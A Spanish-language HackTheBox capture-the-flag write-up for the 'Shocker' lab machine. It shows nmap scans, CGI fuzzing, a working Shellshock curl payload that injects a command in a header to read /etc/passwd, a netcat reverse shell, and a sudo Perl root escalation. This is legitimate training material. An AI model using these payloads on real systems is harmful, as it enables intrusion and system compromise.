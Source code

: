 ```yaml
---
title: "HackTheBox - Shocker"
layout: single
excerpt: Esta máquina me gusto mucho a pesar de su facilidad a la hora de completarla, su título te da el vector de ataque.
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png"
categories:
  - HackTheBox
tags:
  - Write Up
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png">
</p>

┌─[<span style="color: green">root</span>@<span style="color: green">parrot</span>]─[/home/wackyhacker/Desktop]
└──╼
<span style="color: green"> Some green text </span>

Comence efecutando un escaneo con `Nmap` para identificar los puertos abiertos de la maquina.

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sS --min-rate=5000 -v -Pn -n 10.10.10.56 -oG allPorts 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Initiating SYN Stealth Scan at 15:48
Scanning 10.10.10.56 [1000 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed SYN Stealth Scan at 15:48, 0.47s elapsed (1000 total ports)
Nmap scan report for 10.10.10.56
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
           Raw packets sent: 1038 (45.672KB) | Rcvd: 1018 (40.728KB)
```

Tambien hice otro escaneo para verificar la version y servicio de cada puerto abierto.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sC -sV -p80,2222 10.10.10.56 -oN targeted            
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Nmap scan report for 10.10.10.56
Host is up (0.047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.31 seconds
```

Al parecer solo tenía dos puertos, empece por el servidor web, poco podía hacer en el servicio SSH, se veía esto.

![primera (1)](https://user-images.githubusercontent.com/69093629/124386681-d5ed9d80-dcdb-11eb-93dd-7f6951fceb66.png)

No encontré nada, por lo que recurrí a hacer un "fuzzing" con  `WZFuzz`.

![miherramienta](https://user-images.githubusercontent.com/69093629/124386715-f74e8980-dcdb-11eb-8ffb-9591b5ab20c7.png)

Encontré un `/cgi-bin/`, esto parecía un `shellshock` en toda regla, fuzze con `wfuzz`, para ver si podía encontrar un script en bash.

![fuzzer](https://user-images.githubusercontent.com/69093629/124386763-35e44400-dcdc-11eb-9387-501de5ea0565.png)

Y si, encontré un script llamado `user.sh`, para confirmar que era un `shellshock` hice uso del script [exploit-deface.sh](https://raw.githubusercontent.com/opsxcq/exploit-CVE-2014-6271/master/exploit-deface.sh) y efectivamente era vulnerable a `shellshock`, ejecute el siguiente comando enviando una petición por GET por `curl` para ver si me devolvía el  `/etc/hosts`.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"
```

Si, me devolvió el contenido del  `/etc/hosts`, ahora solo faltaba acceder a la máquina, me entable una reverse Shell por "netcat" por el puerto `443` y accedí.

![ypadentro](https://user-images.githubusercontent.com/69093629/124386921-ee11ec80-dcdc-11eb-97b5-e2650c100612.png)

Ahora solo faltaba la escalada de privilegios, para ello hice  `sudo -l`, vi que podía ejecutar Perl con privilegios `root`, me dirigí a [gftobing](https://gtfobins.github.io/) para ver si podía escalar privilegios de alguna manera con Perl, al parecer si podía.

![Captura de pantalla (650)](https://user-images.githubusercontent.com/69093629/124387071-6aa4cb00-dcdd-11eb-900c-dfa65fa1d770.png)

Ejecute el comando con `sudo` y me otorgo permisos de superusuario.

![ypadentro2](https://user-images.githubusercontent.com/69093629/124387098-81e3b880-dcdd-11eb-9d8d-657e81eafc75.png)

 
 
